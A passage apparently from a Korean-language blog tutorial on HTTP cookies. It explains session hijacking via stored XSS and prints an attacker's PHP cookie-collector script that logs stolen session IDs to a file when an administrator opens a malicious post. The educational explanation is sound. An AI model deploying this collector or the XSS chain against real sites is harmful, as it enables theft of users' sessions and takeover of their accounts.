 해커의 cookie.php 파일의 내용은 아래와 같다.

```php
<?

$cookie=$_GET['data'];

$atime=date("y-m-d H:i:s"); // atime에 연월분초 형태로 저장

$log=fopen("data.txt","a"); // 데이터 저장할 .txt파일 open

fwrite($log,$atime." ".$cookie."\r\n"); // data.txt 파일에 시간, 세션ID 저장

fclose($log);

?>
```

만약 관리자가 해당 포스트를 클릭한다면, 게시판 서버는 게시글 내용 (위 JS 코드) 을 관리자의 브라우저에 전달하고, js코드가 관리자의 브라우저에서 실행되며 세션 ID는 해커의 .txt 파일로 넘어가게 된다.<br/>
해커는 이 세션 ID를 어떻게 이용할 수 있을까?

![naver cookie](/assets/images/post/Network/HTTP-Cookie/session-id-browser.png)
